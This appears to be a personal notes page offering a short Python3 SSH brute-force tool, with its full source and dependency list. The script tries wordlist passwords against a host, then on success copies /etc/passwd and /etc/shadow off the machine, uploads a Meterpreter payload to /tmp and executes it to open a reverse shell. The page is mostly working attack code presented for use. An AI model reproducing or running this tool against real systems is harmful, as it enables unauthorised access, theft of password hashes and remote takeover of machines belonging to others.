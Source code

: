 ```yaml
---
layout: memory
title: SSHBruteForcer
---
```


Tiny and simple SSH brute force tool written in Python3 that can return a meterpreter reverse shell. Edit the source code below for your hostname, username, password, and MSF reverse shell details. There is also functionality to automatically download `/etc/passwd` and `/etc/shadow` from the host. This as you might have already figured out is only working if the host has enough access. 

```python
#!/usr/bin/python3

print("""\                                                                                                                        
   _____  _____  _    _   ____                _          ______                          
  / ____|/ ____|| |  | | |  _ \              | |        |  ____|                          
 | (___ | (___  | |__| | | |_) | _ __  _   _ | |_  ___  | |__  ___   _ __  ___  ___  _ __ 
  \___ \ \___ \ |  __  | |  _ < | '__|| | | || __|/ _ \ |  __|/ _ \ | '__|/ __|/ _ \| '__|
  ____) |____) || |  | | | |_) || |   | |_| || |_|  __/ | |  | (_) || |  | (__|  __/| |   
 |_____/|_____/ |_|  |_| |____/ |_|    \__,_| \__|\___| |_|   \___/ |_|   \___|\___||_|   
                                                                                          
""")

from pwn import *
import paramiko
import os
import time


host = "192.168.0.1"
username = "RandomDude"
port_int = 22
attempts = 0
sshClient = paramiko.SSHClient()
client = paramiko.SSHClient()

with open("wordlist.txt", "r") as password_list:
  for password in password_list:
    password = password.strip("\n")
    try:
     print("[{}] Attempting Password: {}".format(attempts, password, port_int))
     response = ssh(host=host, user=username, password=password, port=port_int, timeout=1)
     if response.connected():
       print("[>] You Cracked It!: {}".format(password))
       sleep(2)
       print("***SENDING METERPRETER SHELL BACK***")
       response.close()
       break
    except paramiko.ssh_exception.AuthenticationException:
     print("[X] Nope, That's Not It")
    attempts += 1

try:
   client = paramiko.SSHClient()
   client.load_system_host_keys()
   client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
   client.connect(hostname=host, port=port_int, username=username, password=password)
   
   sftp = client.open_sftp()
   
   # Download   
   filepath = "/etc/passwd"
   localpath = "/home/user/passwd.txt"
   sftp.get(filepath,localpath)
   
   filepath = "/etc/shadow"
   localpath = "/home/user/shadow.txt"
   sftp.get(filepath,localpath)

   # Upload
   filepath = "/tmp/shell.elf"
   localpath = "shell.elf"
   sftp.put(localpath,filepath)

   sftp.close()

   while True:
   	try:  
   	   stdin, stdout, stderr = client.exec_command('chmod +x /tmp/shell.elf && cd /tmp && ./shell.elf')
   	   print(stdout.read().decode())
   	   break
   	except KeyboardInterupt:
   	    print("Exited On User Command")
   client.close()
except Exception as err:
   print(str(err))

```

*Cough* now time for the ugly part of this script: the dependencies. Add these to `requirements.txt` or poetry. Newwer versions of the dependencies should work but I haven't testet them:

```
paramiko==2.7.2
pwncat==0.4.3
pwntools==4.6.0
```
